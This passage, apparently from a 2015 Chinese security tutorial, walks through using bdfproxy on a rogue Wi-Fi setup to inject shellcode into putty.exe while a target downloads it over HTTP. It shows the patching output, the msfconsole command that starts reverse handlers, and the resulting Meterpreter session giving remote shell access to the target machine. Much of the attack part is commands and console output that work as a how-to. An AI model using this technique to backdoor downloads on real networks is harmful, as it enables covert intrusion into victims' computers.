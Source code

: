 ```
[*] Changing Section Flags
[*] Patching initial entry instructions
[*] Creating win32 resume execution stub
[*] Looking for and setting selected shellcode
[*] Patching complete, forwarding to user.
========== END RESPONSE ==========

```

在目标设备通过HTTP下载文件时，您将在bdfproxy中看到拦截下的请求，提示您选择注入的CAVE，这里上面我选择了2，输入2然后回车，目标设备这时成功下载到putty.exe，看上去毫无异样。

[![](http://static.wooyun.org//drops/20150811/2015081103412187770.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/normalvideo.png)

以上截图出自WooyunWifi 2.0的视频，目前版本已经到达3.0，除了功能增强也有一个全新界面了

先不解释发生了什么，我们先来启动Metasploit：

```
root@Alkaid-PC:/usr/share/bdfproxy# msfconsole -r ./bdfproxy_msf_resource.rc 

```

请注意，这里的bdfproxy_msf_resource.rc正是我们上文中设置文件的名称，可能位于/usr/share/bdfproxy下面，如果您自己编译的bdfproxy，那您需要自己找这文件放哪里了

```
[*] Started reverse handler on 192.168.1.163:5555 
[*] Starting the payload handler...
msf exploit(handler) > [*] Sending stage (770048 bytes) to 192.168.1.134
[*] Meterpreter session 1 opened (192.168.1.163:8443 -> 192.168.1.134:57625) at 2015-08-09 14:58:22 +0800

```

可以看到启动时开启了一堆handler等待bdfproxy使用，当目标设备运行putty.exe时，显示Meterpreter session 1 opened，这时已经获取到了目标设备的SHELL

```
msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type   Information   Connection
  --  ----   -----------   ----------
  1   meterpreter x86/win32  FullMatelErLuLu\OrgeDaLuLu @ FULLMATELERLULU  192.168.1.163:8443 -> 192.168.1.134:57625 (192.168.1.134)

```

具体拿到SHELL之后怎么用，请参阅Metasploit的文档，这里就不细说了

0x03 BDF原理分析
============

* * *

首先，我们来看看我们大概做了一件什么事情：
